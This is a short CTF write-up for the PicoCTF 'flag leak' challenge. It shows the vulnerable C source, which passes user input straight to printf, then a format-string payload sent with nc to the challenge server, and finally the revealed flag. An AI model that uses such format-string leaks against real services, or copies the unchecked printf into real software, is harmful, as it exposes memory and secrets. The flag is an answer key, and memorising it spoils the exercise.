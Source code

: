 ```yaml
---
title: PicoCTF - flag leak
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - flag leak
<!-- more -->

## Background
Format String Bug
![](https://hackmd.io/_uploads/BkqBmpOih.png)
![](https://hackmd.io/_uploads/SyvLXauon.png)

## Source code
:::spoiler
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
:::

## Recon
這一題比計安教的還簡單，不過我全忘了QQ
先用gdb跟一下，發現在stack的地方有flag的痕跡，記一下相對位置就可以print出來，如果怕不同device會有問題的話就多幾個

## Exploit
Payload: `%20$s%21$s%22$s%23$s%24$s%25$s%26$s`
```bash!
python -c 'print("%20$s%21$s%22$s%23$s%24$s%25$s%26$s")' | nc saturn.picoctf.net 50811
Tell me a story and then I'll tell you one >> Here's a story -
������e�
        setresgidCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}���̓ii
```

Flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}`